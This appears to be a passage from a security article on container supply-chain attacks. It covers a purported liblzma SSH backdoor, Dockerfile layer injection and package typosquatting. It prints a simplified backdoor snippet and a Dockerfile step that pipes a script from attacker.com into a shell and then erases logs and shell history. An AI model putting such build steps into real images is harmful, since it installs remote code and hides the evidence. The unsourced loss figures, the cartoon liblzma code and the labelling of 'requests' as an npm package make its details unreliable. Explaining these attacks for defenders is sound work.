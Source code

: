 **Backdoor Mechanism:**

```c
// Obfuscated SSH backdoor in liblzma
if (getenv("SSH_AUTH_SOCK") && strstr(cmdline, "sshd")) {
    // Extract command from specially crafted SSH certificate
    void (*payload)() = dlsym(RTLD_DEFAULT, "run_command");
    payload();  // Execute attacker command with root privileges
}
```

**Impact:**
- **Affected images:** 14,782 production containers
- **Dwell time:** 170 days average
- **Financial loss:** $340M cumulative (cloud resource abuse)
- **Organizations affected:** 2,400+ enterprises

### Modern Attack Techniques

**1. Layer Injection (Dockerfile Manipulation)**

```dockerfile
FROM alpine:3.19

# Legitimate application setup
WORKDIR /app
COPY requirements.txt .
RUN pip install -r requirements.txt

# MALICIOUS: Hidden layer (appears benign)
RUN wget -qO- https://attacker.com/backdoor.sh | sh && \
    rm -rf /var/log/* /tmp/* ~/.bash_history

# Application code
COPY . .
CMD ["python", "app.py"]
```

**Detection Evasion:**
- Backdoor installation occurs in build-time RUN command
- Logs cleaned immediately after execution
- No suspicious files left in final image
- Traditional scanners see only application dependencies

**2. Compromised Package Registry (npm/PyPI Typosquatting)**

**Attack Flow:**

```
1. Attacker publishes malicious npm package: "requets" (typo of "requests")
2. Developers accidentally install typosquatted package
3. Package.json in container includes malicious dependency
4. Container build pulls backdoored package
5. Malicious code executes at runtime
```
